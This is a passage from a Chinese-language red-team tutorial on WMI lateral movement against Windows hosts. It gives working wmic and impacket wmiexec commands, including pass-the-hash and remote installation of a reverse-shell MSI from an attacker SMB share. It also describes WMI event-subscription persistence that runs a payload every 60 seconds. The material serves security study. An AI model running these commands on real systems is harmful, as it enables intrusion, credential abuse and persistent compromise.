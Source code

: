 `wmic /node:192.168.1.131 /user:Administrator /password:123qwe@ process call create "cmd.exe /c ipconfig > C:\result.txt"`

**远程安装MSI文件**  
通过调用Win32_Product.Install方法，可以控制远程主机安装恶意MSI文件，从而获得权限

`wmic /node:192.168.1.131 /user:Administrator /password:123qwe@ product call install PackageLocation="\\192.168.1.1\mysmb\reverse_tcp.msi"`

### [常见利用工具](https://tttang.com/archive/1890/#toc__5)

#### [套件impacket-**WmiExec**](https://tttang.com/archive/1890/#toc_impacket-wmiexec)

Impacket项目的Wmiexec.py能够以全交互或半交互的方式，通过WMI在远程主机上执行命令。该工机需要远程主机开启135和445端口，其中445端口用于传输命令执行的回显。

`python wmiexec.py uf9n1x/Administrator:123qwe@@192.168.1.131   wmiexec.exe ./administrator:123qwe@@192.168.1.131 "whoami"  wmiexec.exe god/administrator:Admin12345@192.168.1.131 "whoami"  wmiexec.exe -hashes :518b98ad4178a53695dc997aa02d455c ./administrator@192.168.1.131 "whoami"  wmiexec.exe -hashes :ccef208c6485269c20db2cad21734fe7 uf9n1x/administrator@192.168.1.131 "whoami"`

#### [自带 cscript 明文传递 有回显](https://tttang.com/archive/1890/#toc_cscript)

`cscript //nologo wmiexec.vbs /shell 192.168.1.131 administrator 123qwe@`

#### [自带 WMIC 明文传递 无回显](https://tttang.com/archive/1890/#toc_wmic)

`wmic /node:192.168.1.131 /user:administrator /password:123qwe@ process call create "cmd.exe /c ipconfig >C:\1.txt"`

### [WMI事件订阅的利用](https://tttang.com/archive/1890/#toc_wmi_1)

WMI提供了强大的事件处理系统，几乎可以用于操作系统上发生的任何事件做出相应。

当创建某进程时，通过WMI事件订阅器来执行预先设置的脚本。  
其中触发事件的具体条件被称为“**事件过滤器**”（Event Filter），如用户登录、新进程创建等；对指定事件发生做出相应的称为“**事件消费者**”（Event Consumer），包括一系列具体的操作，如运行脚本、记录日志、发送邮件等。  
在部署事件订阅时，需要分别构建Filter和Consumer两部分，并将两者绑定在一起。

所有的事件过滤器都被存储在一个**Root\subscription:__EventFiilter**对象的实例，可以通过创建**__EventFilter对象**实例来部署事件过滤器。事件消费者是基于**ROOT\subscription:__EventConsumer系统类**派生来的类。

系统提供了常用的标准事件消费类

`LogFileEventConsumer    # 将事件数据写入指定的日志文件  ActiveScriptEventConsumer  # 执行嵌入的VBScript或JavaScript  NTEventLogEventConsumer      # 创建一个包含事件数据的事件日志条目  SMTPEventConsumer            # 发送一封包含事件数据的电子邮件  CommandLineEventConsumer     # 执行指定的系统命令`

**Sharp-WMIEvent**

[https://github.com/wh0Nsq/Sharp-WMIEvent](https://github.com/wh0Nsq/Sharp-WMIEvent)

在远程主机上部署一个随即命名的永久事件订阅，并每隔60s执行以此SMB共享中的攻击载荷
